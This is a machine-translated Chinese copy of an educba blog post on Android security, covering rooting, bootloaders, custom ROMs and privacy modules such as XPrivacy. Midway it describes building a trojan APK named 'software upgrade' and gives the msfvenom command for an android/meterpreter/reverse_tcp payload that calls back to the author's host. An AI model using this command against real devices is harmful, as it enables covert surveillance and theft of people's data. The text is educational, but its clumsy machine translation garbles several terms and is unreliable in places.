

# 机器人

> 原文：<https://www.educba.com/android/>

## Android 简介

在本主题中，我们将了解 Android 和开源安全(OS)。 [Android](https://www.educba.com/software-development/courses/android-developer-course/ "ANDROID - Complete Practical Training on Android") 是一个开源平台。它很像 Linux，但与 Linux 还是有很大的不同。与 Android 相比，Linux 太成熟了。这是 Chetan Nayak，欢迎来到我的下一个关于开源网络安全的博客。我写这篇博客是假设我们大多数人会使用 Android K，即 Kitkat 或 Android L，即 Lollipop。

原因是 Gingerbread 和 Jellybean 有很多开源安全问题，我不能在这篇博客中讨论。所以，也许下次当我更深入地研究它的旧版本时，我会讨论它。所以，从现在开始，让我们坚持 KitKat 和 Lollipop。

<small>网页开发、编程语言、软件测试&其他</small>

它是为开发人员设计的。安全控制旨在减轻开发人员的负担。精通安全的开发人员可以轻松使用并依赖灵活的安全控制。不太熟悉安全性的开发人员将受到安全默认值的保护。

### 开始

直到 2013 年第二季度，我才开始接触 android，当时我有了第一部 Android 手机，那是索尼 Xperia L(基于当时的 4.2.2 版本)。见鬼，我甚至讨厌安卓系统，因为它太落后了，尤其是三星设备。我当时甚至考虑过买一台 Windows Lumia，但幸运的是，我以前玩了很多游戏，我不得不买 Xperia L，因为这款电池是防延迟的。它有大约 1g 的内存和 Adreno 305。酷到可以运行任何东西。

在玩了许多像 NOVA3 和 ModernCombat4 这样的游戏后，我在一个月内就厌倦了那个牢房。我知道它是基于 Linux 的，我想在其上做一些修改。我开始阅读关于定制的书籍，并了解了什么叫做“扎根”。因为我在 Linux 中有很好的反手击球，生根对我来说不是问题。在 XDA 的帮助下，我成功地扎根于我的细胞。

但是我突然想到了什么。我的手机在开机后一重启，就开始引导循环(永远卡在引导屏幕上)。我甚至不知道 android 中的 bootloader 是什么。所以，我无能为力。这只是一个月，我买了我的新细胞，我的细胞现在软砖。我总是读到生根是危险的，但我不知道它会砖我的细胞。但我错了。随着我不断地阅读关于生根的一篇又一篇文章，我开始知道生根不会阻塞你的手机。

root 只是类似于电脑中的和 Admin 访问(其实是系统访问，但是我写的是 Admin 访问，所以对于 noobs 来说很容易理解。).这意味着生根将永远不会砖你的手机。是引导程序阻塞了我的手机。对于不知道 bootloader 是；bootloader 类似于 windows 中的 BIOS。(如果你不知道 BIOS 是什么，那么你根本就不应该读《思考安全》。)Bootloader 或 Hboot(这是它在 android 中的叫法)是你启动你的 [Android 设备](https://www.educba.com/android-device-manager-tracker/ "How Android Device Manager Finds Your Lost Phone?")时运行的第一件事。

它封装了引导[操作系统](https://www.educba.com/android-operating-system/ "Structure of an Android Operating System")内核的指令，其中大部分都是专门为运行自己的调试或修改环境而设计的。

### Android 的安全检查点

把 bootloader 想象成你的设备的安全检查点。如果你突破了这个关卡，你将会失去手机上的所有东西。所以，我认为这是一个很好的安全特性。因为如果你丢了手机，有人试图获得 root 权限绕过锁(假设你已经用 pin 或密码锁定了你的设备。)，然后他将强制解锁引导程序，这将导致删除您手机上的数据。

所以，你不用担心有人误用。所以，ROMS 习俗也是如此。rom 是基于专为您的硬件架构设计的 Android 版本的操作系统。所以，如果你在 XDA 上检查，对于你的手机，你会有 n 个定制的 rom，其中一些最著名的是 Cyanogen Mod ROMs，它们已经预先根深蒂固，并带有预定义的定制设置。

### Android 的安全覆盖

你现在可能在想，你有一个安全的手机。但是我在这里再次证明你是错的，这就是这篇博客的全部意义。到 2014 年第二季度，人们已经开始为 Android 开发漏洞和 rootkitss，这些漏洞和 rootkit 甚至可以在不解锁引导加载程序的情况下扎根你的手机。

还不够吓人？让我告诉你最危险的部分。他们甚至可以在里面安装木马。所以，即使警察能追踪到你的手机，你也能拿回你的手机，他们仍然很有可能看到你在手机上做的一切。这是我在实际环境中尝试过的实验。

我在这次攻击中使用了 Metasploit。我做的是我创建了一个木马并安装在目标手机上。这是一个简单的 apk 文件，我将其命名为软件升级。所以，如果用户只是一个普通人，只有一点点关于安全的信息，那么他甚至不敢删除它。我确定，只要互联网被激活，我创建的恶意软件就会自动执行，并连接回我在主机上的远程端口。

攻击使用了以下命令(Metasploit 是一种渗透测试软件，有助于检查平台或特定设备上的漏洞。)

我的主机 IP 地址:192.168.xx.xx

我的主机端口(要连接回去):445

`>>>msfvenom`

> > > MSF venom Android/meter preter/reverse _ TCP LHOST = 192.168 . xx . xx LPORT = 445 > software upgrade . apk

所以，这里我在我的电脑上创建了一个反向 TCP 通道。因此，每次在 android 上启动互联网时，我都会在我的 Kali 机器或安装了 Metasploit 的机器上打开一个 shell。

所以，现在你知道对一个你甚至不认识的人来说有多可怕了，他记录了你通过手机、其他联系人、WhatsApp 信息、短信、Viber 和 Skype 通话记录等进行的每一笔交易。如果这还不可怕，那我不知道什么才可怕。

### 覆盖范围

安全问题说够了。我们都知道其他平台都有安全问题。那我们怎么会安全呢？这并不完全正确。平台可以在某个特定点上变得安全，但在此之后，就要靠我们来确保它保持安全。在安全领域有一句名言:

**《社会工程:因为人类的愚蠢没有补丁》**

很久以前我在看一个 DefCon 的会议时听到过这句话。

当没有技术漏洞可以利用的时候，你应该尝试去黑人类。我指的不是催眠之类的东西。我指的是社会工程。你可以阅读我的另一篇博客“网络安全在我们日常生活中的重要性”来了解更多信息。

### Android 的核心安全功能

此外，社会工程，这是一些只有你聪明才能处理的事情；有很多方法可以让你以一种安全的方式开发 android 应用程序，以确保它保持安全。

以下是一些帮助您构建安全应用的核心安全特性:

*   Android 应用程序沙箱，将您的应用程序数据和代码执行与其他应用程序隔离开来。

*   一个应用程序框架，具有常见安全功能的健壮实现，如加密、权限和安全 IPC。

*   一种加密的文件系统，可用于保护丢失或被盗设备上的数据。

*   用户授予的权限，用于限制对系统功能和用户数据的访问。

*   应用程序定义的权限，用于基于每个应用程序控制应用程序数据。

### 如果你想要一个安全的环境，但你不是一个开发人员，你能做什么？

从 Android 5 开始，即 Lollipop，它提供了一个功能，用户可以添加多个配置文件和受限模式来使用手机和平板电脑。此外，如果你已经对手机进行了 rooted，那么在 Xposed 模块中有一些 android 应用程序，如 AppOps、Xprivacy 或 Privacy Guard，它们可以帮助你处理几乎所有事情。为此，您需要安装 Xposed 框架。

Xposed 框架允许 Xposed 模块工作。Xposed 模块允许您更改 Apk 文件和系统文件的行为，而无需安装不同的 ROM。撤销更改也很容易，所以风险很小，甚至不耗时，因为不需要刷新多个 ROMS、内核及其错误修复。

Xprivacy，Privacy Guard 和 AppOps 是 exposed 的模块，允许你通过选择哪个应用程序应该访问什么，如互联网，键盘，sd 卡，root 访问和许多其他东西，来使你的 android 安全。您甚至可以只禁止访问特定的服务，并为此创建用户定义的模板。我呢，更倾向于选择 Xprivacy。但是这里有一些信息或差异，如果你不同意在以上三者中选择。

#### 阿彭斯

这最初是谷歌在 Android 4.3 中推出的。(这是我不支持的主要原因。我不信任谷歌。称之为偏执狂，但谷歌会追踪你做的一切。我不需要有人跟踪我做的每一件事，但是如果你信任谷歌，那就去做吧。).AppOps 的主要限制是，谷歌只允许你屏蔽那些它希望你屏蔽的应用。

这意味着，如果你想屏蔽与谷歌相关的应用，如 Play Services(实际上会消耗你正常内存、电池和数据(互联网)的 50%以上)，你将无法做到。这是我讨厌谷歌的又一个原因。所以，我相信 AppOps 对我来说只不过是一个恶意软件。(但这只是我的想法，如果你真心信任谷歌独家，就不会这样)

#### 隐私卫士

隐私卫士是一个简单易用的界面，用来代替 Cyanogen Mod 的 AppOps。如果你是一个初学者，那么我建议你使用这个，因为它只有一个开关按钮和自定义模板，关于哪种应用程序应该访问什么。如果有恶意软件像系统应用程序一样运行或模仿，这就不那么安全了。但这有助于你开始。

#### 表达方式

Xprivacy 是一个多功能的工具。但它是针对专家的。可以和瑞士军刀比。它什么都有，可以让你的手机在所有其他方面都安全，但如果你不知道你在做什么，它只会搞乱你的手机，甚至阻止应用程序启动。您还可以限制对系统应用程序的访问。这个是我个人比较倾向于选择的。

除了上述模块之外，Xposed 中甚至还有其他模块，如 Lightening Firewall 或 BootManager，可以帮助限制特定应用程序的互联网访问，并在重启手机时阻止应用程序与系统一起启动。

所以，这将是这个博客。出于安全考虑，你当然可以访问 XDA 网站，或者成为该网站的会员，该网站可以向你提供更多的隐私信息。

### 推荐文章

这是 Android 的指南。这里我们讨论了 Android 的基本概念、安全检查点和核心安全功能。您也可以浏览我们推荐的其他文章，了解更多信息——

1.  [Android 面试问题–十大有用问题](https://www.educba.com/android-interview-questions/)
2.  [8 款适用于 Android 的 Siri 替代品](https://www.educba.com/siri-alternatives/)
3.  [28 条最佳建议&amp；Android 应用开发工具的诀窍](https://www.educba.com/android-apps-development-tools/)
4.  [Android 开发职业](https://www.educba.com/careers-in-android-development/)

